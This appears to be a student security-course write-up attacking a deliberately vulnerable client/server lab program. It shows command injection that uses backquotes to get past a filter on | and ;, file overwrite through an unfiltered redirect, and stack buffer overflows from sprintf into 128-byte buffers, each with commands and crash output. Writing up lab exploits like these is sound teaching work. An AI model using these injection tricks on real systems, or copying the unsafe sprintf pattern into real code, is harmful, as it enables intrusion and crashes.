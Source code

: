 ## Team 4

### Command Injection

* Using echo command. Only | and ; are filtered to check for multiple commands. We can use backquotes.
```
echo `uname -a`
Linux mc02.cs.purdue.edu 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 
UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

```

* Using ping command. The redirect operators are not filtered. We can use this to overwrite writable files.

```
ping google.com>vulnerable_file
ls
total 10480
-rwxr-x--- 1 njaganna njaganna 5309312 Mar 25 08:59 client
drwxrwxr-x 2 njaganna njaganna    4096 Mar 14 19:49 include
-rw-rw-r-- 1 njaganna njaganna    2440 Mar 14 19:49 Makefile
drwxr-x--- 6 njaganna njaganna    4096 Mar 25 08:59 obj
-rwxr-x--- 1 njaganna njaganna 5391136 Mar 25 08:59 server
-rw-r----- 1 njaganna njaganna     385 Mar 25 08:58 sploit.conf
drwxrwxr-x 6 njaganna njaganna    4096 Mar 14 19:49 src
-rw-r----- 1 njaganna njaganna     286 Mar 25 09:49 vulnerable_file
```

### Buffer Overflow

* The ping command is constructed using a buffer of size 128. We can overflow this by giving a hostname which exceeds the size.
```C
char pingcmd[128];
sprintf(pingcmd, "ping %s", host.c_str());

Client:
ping first
ping AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAA 

Server:
ping: unknown host first
Segmentation fault (core dumped)
mc02 60 $ 
```

* Any misc command is constructed by using a buffer of size 128. First it changes directory and then executes command. So if we give a long parameter for the alias command, the server crashes as we overflow the return address.

```C
char c_cmd[128];
sprintf(c_cmd, "cd %s && %s",
        getSession().getCurrentDir().c_str(),
        _cmd.c_str());

Client:
echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAA

Server: 
mc02 60 $ ./server
Sploit Server Starting...
Segmentation fault (core dumped)
mc02 61 $
```
